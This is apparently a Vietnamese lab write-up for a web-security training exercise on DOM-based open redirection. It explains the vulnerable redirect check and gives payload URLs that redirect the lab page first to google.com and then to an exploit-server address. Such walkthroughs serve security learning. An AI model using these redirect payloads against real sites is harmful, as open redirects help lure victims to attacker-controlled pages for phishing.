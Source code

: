 ## DOM-based open redirection

1. Trong source của lab có đoạn xử lý redirect bắt được bằng sự kiện onclick.

![Img1](\asset/../img/detect.png)

2. Đoạn mã check xem đoạn regex `/url=(https?:\/\/.+)/` có trong chuỗi url hay không. Nếu có thì redirect đến url đó. 

3. Thêm param url vào sau url hiện tại 
- Payload: ```https://0a54001b03fab35ec1c60963003a00a8.web-security-academy.net/post?postId=3&url=https://google.com``` 

-> Nhận thấy trang redirect ta đến trang google.com

4. Craft payload thành ```https://0a54001b03fab35ec1c60963003a00a8.web-security-academy.net/post?postId=3&url=https://exploit-0a04000903b3b3fdc11f0845012a004f.exploit-server.net/```

![Img2](\asset/../img/done.png)